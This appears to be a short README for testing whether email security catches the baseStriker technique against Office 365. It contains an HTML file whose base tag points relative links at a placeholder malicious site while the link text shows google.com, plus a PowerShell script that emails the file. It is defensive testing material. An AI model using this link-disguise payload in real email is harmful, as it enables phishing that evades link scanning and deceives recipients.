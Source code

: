 As of 2018-05-14, Microsoft Office 365 email is vulnerable to the baseStriker attack. You can use the htm file and script below to test this if your email security solution is able to turn base tags into safelinks.

Create the following files in the same folder and run the baseStriker_test.ps1 PowerShell script.

baseStriker_Test.htm

 <html>
 <head>
      <base href="https://www.malicioussite.com/">
 </head>
 <body>
 Base Link: <a href="attack">https:/www.google.com/</a><br>
 Normal Link: <a href="https://www.malicioussite.com/attack">https:/www.google.com/</a>
 </body>
 </html>

baseStriker_test.ps1

 [String]$body = gc "baseStriker_Test.htm" 
 Send-MailMessage -SmtpServer <smtp_server> -From <from_address> -To <to_address> -Subject "baseStriker Test" -Body $body 